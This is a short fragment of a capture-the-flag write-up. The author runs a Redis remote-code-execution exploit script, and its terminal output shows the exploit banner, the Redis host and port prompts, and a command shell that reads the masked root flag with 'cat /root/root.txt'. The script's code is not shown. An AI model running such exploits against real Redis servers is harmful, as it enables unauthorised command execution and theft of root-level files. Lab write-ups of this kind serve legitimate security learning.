 Then I ran `exploit.py`, got RCE and got the root flag!

```bash
└─$ python exploit.py    
  
      [#] Create By ::
        _                     _    ___   __   ____                             
       / \   _ __   __ _  ___| |  / _ \ / _| |  _ \  ___ _ __ ___   ___  _ __  
      / _ \ | '_ \ / _` |/ _ \ | | | | | |_  | | | |/ _ \ '_ ` _ \ / _ \| '_ \ 
     / ___ \| | | | (_| |  __/ | | |_| |  _| | |_| |  __/ | | | | | (_) | | | |
    /_/   \_\_| |_|\__, |\___|_|  \___/|_|   |____/ \___|_| |_| |_|\___/|_| |_|
                   |___/            By https://aodsec.com                                           
    
Please input redis ip:
>>127.0.0.1
Please input redis port:
>>6379
input exec cmd:(q->exit)
>>cat /root/root.txt
b'*******************************d\n'
input exec cmd:(q->exit)
>>
```

---
